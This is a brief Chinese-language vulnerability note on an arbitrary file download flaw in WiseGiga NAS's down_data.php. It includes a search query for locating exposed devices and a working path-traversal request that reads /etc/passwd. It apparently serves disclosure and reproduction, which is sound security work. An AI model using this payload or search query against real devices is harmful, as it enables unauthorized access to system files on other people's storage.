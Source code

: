 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](images/202206281136917.png)

验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![image-20220628113749412](images/202206281137504.png)